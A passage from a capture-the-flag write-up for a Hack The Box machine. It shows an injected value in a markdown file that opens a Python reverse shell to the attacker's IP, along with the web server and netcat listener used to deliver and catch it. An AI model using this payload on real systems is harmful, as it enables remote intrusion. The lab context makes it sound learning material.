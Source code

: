## Reverse Shell

There's nothing sanitizing input in any of that so we can exploit it by creating our own md file with a payload in it. I used a [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) one:

```sh
┌──(root㉿kali)-[~/htb/noter]
└─# cat pencer.md
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.73",4444)); os.dup2( s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' # '
```

With the file created containing our payload let's start a web server so we can grab it from the box:

```sh
┌──(root㉿kali)-[~/htb/noter]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Also start netcat listening to catch the shell:

```sh
┌──(root㉿kali)-[~/htb/noter]
└─# nc -nlvp 4444               
listening on [any] 4444 ...
```

Now back to the box, click on the Export Notes button on the dashboard and put in our Kali IP and payload filename:

![noter-payload](/assets/images/2022-05-22-18-37-13.png)
